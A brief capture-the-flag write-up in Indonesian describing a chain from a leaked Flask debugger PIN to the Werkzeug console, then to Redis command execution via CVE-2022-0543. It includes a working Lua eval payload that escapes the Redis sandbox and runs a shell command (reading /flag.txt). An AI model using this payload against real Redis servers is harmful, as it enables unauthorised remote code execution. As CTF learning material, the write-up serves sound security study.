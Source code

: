# How to solve

Pertama kita perlu mendapatkan flask pin dari miss configration pada cache.

Setelah itu kita pakai pin itu untuk ke endpoint console.

Pada endpoint console kita perlu mendapatkan akses redis menggunakan vulnerability CVE-2022-0543. Kita bisa mengecek versi redis ini menggunakan command `info server`

```py
import redis;
r = redis.Redis("redis", 6379);
print(r.execute_command("info server").decode());
```

Untuk mendapatkan remote address kita menggunakan payload dari CVE-2022-0543 dari poc [ini](https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543).

```py
import redis;
r = redis.Redis("redis", 6379);
print(r.eval("""local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /flag.txt", "r"); local res = f:read("*a"); f:close(); return res""",0));
```
